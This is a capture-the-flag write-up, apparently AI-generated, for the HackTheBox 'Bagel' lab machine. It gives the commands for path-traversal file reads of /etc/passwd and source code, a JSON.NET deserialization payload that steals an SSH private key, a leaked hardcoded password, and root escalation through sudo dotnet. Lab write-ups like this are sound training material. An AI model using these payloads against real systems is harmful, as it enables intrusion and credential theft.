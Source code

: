 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
- **Exploits Used**:
  - [HTTP](HTTP) File Read via Flask route `?page=`
  - Python `proc` analysis to leak source
  - DLL retrieval from .NET server 🎯
  - JSON.NET deserialization exploit in WebSocket 📡
  - Private SSH Key exfiltration 🗝️
  - Pivot to developer via hardcoded creds
  - [dotnet](https://learn.microsoft.com/en-us/dotnet/core/tools/dotnet) F# execution as root via `sudo`

- **Open Ports**:
  - [SSH](SSH) (22)
  - [HTTP](HTTP) (8000) – Flask
  - [HTTP](HTTP) (5000) – WebSocket + .NET Core

---

[Tools](Tools)
- `nmap` 🔍
- `feroxbuster` 🦡
- `ffuf` 🚀
- `curl` 🌐
- `wscat` 📡
- `jq` 🧪
- `dnSpy` 🔬
- `dotnet`, `fsi`, and `bash` 🧠
- `ssh`, `su` 🧑‍💻

---

### Commands to Solve Box

#### 🔍 Recon
```bash
nmap -p- --min-rate 10000 10.10.11.201
nmap -p 22,5000,8000 -sCV 10.10.11.201
feroxbuster -u http://bagel.htb:8000
```

#### 📂 Initial Access (via Flask)
```bash
curl http://bagel.htb:8000/?page=../../../../etc/passwd
curl http://bagel.htb:8000/?page=../../../../proc/self/cmdline
curl http://bagel.htb:8000/?page=../../../../home/developer/app/app.py
```

#### 🧠 DLL Retrieval
```bash
curl http://bagel.htb:8000/?page=../../../../opt/bagel/bin/Debug/net6.0/bagel.dll -o bagel.dll
```
Open with [dnSpy](https://github.com/dnSpy/dnSpy) or `ilspy`.

#### 📡 WebSocket Deserialization
```bash
wscat -c ws://bagel.htb:5000
# Send malicious JSON:
{"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../home/phil/.ssh/id_rsa"}}
```

Reformat the key:
```bash
echo $KEY | jq -r . > ~/keys/bagel-phil
chmod 600 ~/keys/bagel-phil
ssh -i ~/keys/bagel-phil phil@bagel.htb
```

#### 🔐 Pivot to developer
```bash
su - developer  # password from DLL: k8wdAYYKyhnjg3K
```

#### 👑 Root via dotnet F#
```bash
sudo dotnet fsi
> System.Diagnostics.Process.Start("bash").WaitForExit();;
```

Alt: Make custom C# app
```bash
mkdir /dev/shm/exploit && cd /dev/shm/exploit
dotnet new console
nano Program.cs  # insert reverse shell or bash
sudo dotnet run
```

---

### ✅ Actions Learned From This Box
- 🐍 How Flask apps can be abused through `?page=` file reads
- 🔍 Reconnaissance with `/proc` to locate running source code
- 📦 Decompiling .NET DLLs to discover vulnerabilities
- 🔓 JSON.NET deserialization bugs via TypeNameHandling 🧨
- 🗝️ Pivoting to users via private key exfiltration
- 💻 F# interactive exploitation for privilege escalation
- 🧰 Rebuilding structured payloads using `jq` and terminal tricks
- 🧪 Understanding .NET internals (runtimeconfig, dll paths, etc.)

---

### References 📚
- 📘 [Json.NET Deserialization Exploit Writeup](https://blog.doyensec.com/2020/02/10/json-deserialization-in-dotnet.html)
- 🧪 [wscat](https://github.com/websockets/wscat)
- 🔐 [F# Interactive (fsi)](https://learn.microsoft.com/en-us/dotnet/fsharp/tutorials/fsi/)
- 💣 [dotnet TypeNameHandling vulnerability](https://www.hanselman.com/blog/remote-code-execution-via-json-deserialization-in-net)
- 📦 [dnSpy GitHub](https://github.com/dnSpy/dnSpy)

---

Let me know when you're ready for another writeup! 🧠🔥🥯